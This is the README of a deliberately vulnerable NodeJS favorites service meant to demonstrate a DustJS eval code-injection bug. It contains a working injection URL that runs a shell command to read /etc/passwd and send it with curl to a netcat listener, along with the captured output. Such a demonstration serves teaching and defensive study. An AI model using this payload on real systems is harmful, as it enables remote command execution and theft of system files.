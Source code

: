 # Vulnerable Favorites Service

This service is a dummy favorites service written in NodeJS and using the DustJS framework.

There is a deliberate vulnerability in this application which allows remote code injection due to an eval bug in DustJS.

**NOTE:** This vulnerability dates back to 2014 and has since been patched, this is only for information purposes to highlight how code injection can be used to bypass perimeter firewalls.

# WARNING
This service is for demonstration purposes only and should not be deployed to a production environment!

# Configuration
The following environment variables are exposed to configure the service.
* PORT - bind port
* BIND_ADDRESS - IP address to bind to 

# Running the service - simple example

First start the service:

```bash
$ yarn start
yarn run v1.13.0
warning package.json: No license field
$ node ./app.js
Example app listening on port 3000!
```

Then run netcat to accept data from the vulnerability on port 5000

```bash
$ nc -lv -p 5000
listening on [any] 5000 ...
```

Send a malformed request to the service which lists /etc/passwd and forwards this to localhost:5000 where your netcat server is running

```
http://localhost:3000/?device[]=x&device[]=y%27-require(%27child_process%27).exec(%27curl+-F+%22x=`cat+/etc/passwd`%22+localhost:5000%27)-%27
```

You should see the following response in the netcat output

```bash
connect to [127.0.0.1] from localhost [127.0.0.1] 35218
POST / HTTP/1.1
Host: localhost:5000
User-Agent: curl/7.52.1
Accept: */*
Content-Length: 1734
Expect: 100-continue
Content-Type: multipart/form-data; boundary=------------------------9a601d056e16f015

--------------------------9a601d056e16f015
Content-Disposition: form-data; name="x"

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/bin/false
systemd-timesync:x:101:104:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:102:105:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:103:106:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:104:107:systemd Bus Proxy,,,:/run/systemd:/bin/false
messagebus:x:105:108::/var/run/dbus:/bin/false
rtkit:x:106:109:RealtimeKit,,,:/proc:/bin/false
sshd:x:107:65534::/run/sshd:/usr/sbin/nologin
pulse:x:108:110:PulseAudio daemon,,,:/var/run/pulse:/bin/false
android-root:x:655360:655360::/dev/null:/bin/false
jacksonnic:x:1000:1000::/home/jacksonnic:/usr/bin/zsh
Debian-exim:x:109:112::/var/spool/exim4:/bin/false
--------------------------9a601d056e16f015--
```


# References
[http://artsploit.blogspot.com/2016/08/pprce2.html](http://artsploit.blogspot.com/2016/08/pprce2.html)
